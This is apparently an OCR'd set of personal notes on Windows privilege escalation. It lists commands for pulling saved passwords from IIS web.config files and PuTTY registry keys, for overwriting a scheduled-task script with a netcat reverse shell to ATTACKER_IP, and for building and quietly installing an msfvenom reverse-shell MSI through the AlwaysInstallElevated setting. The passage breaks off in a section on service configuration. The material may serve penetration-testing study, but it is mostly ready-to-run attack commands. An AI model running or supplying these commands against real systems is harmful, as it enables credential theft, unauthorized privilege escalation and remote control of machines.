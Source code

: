 escalation

——  ——  ——  windows Escalation  ——  ——  ——  


- Plain text IIS configuration
config locations
* C:\inetpub\wwwroot\web.config
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

maybe database string contains password:
`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`


- PuTTY credentials: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
- any other software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.`



2. Scheduled tasks

- List scheduled tasks: `schtasks`
- Find task details for ‘vulntask’: `schtasks /query /tn vulntask /fo list /v`
- Check executable file ‘Task To Run’ and privilege from ‘Run As User’
- Check permission on the executable: `icacls c:\tasks\schtask.bat`
- Run the task on demand: `schtasks /run /tn vulntask`

Update bin script:
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

3. Always elevated Executables: Always run the executable with higher privilege

It works only if both these keys are set
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Generate the executable:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

Run the above executable
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi


4. Service Configurations

- Windows services are managed by the Service Control Manager (SCM)
- All of the services configurations are stored on the registry under HKLM\SYSTEM\CurrentControlSet\Services\: ‘ImagePath’ is the executable path, ‘ObjectName’ is the user name, ‘Security’ is the access controls

# Query service details
# Executable path is given by 'BINARY_PATH_NAME'
# Run user: 'SERVICE_START_NAME'
sc qc apphostsvc
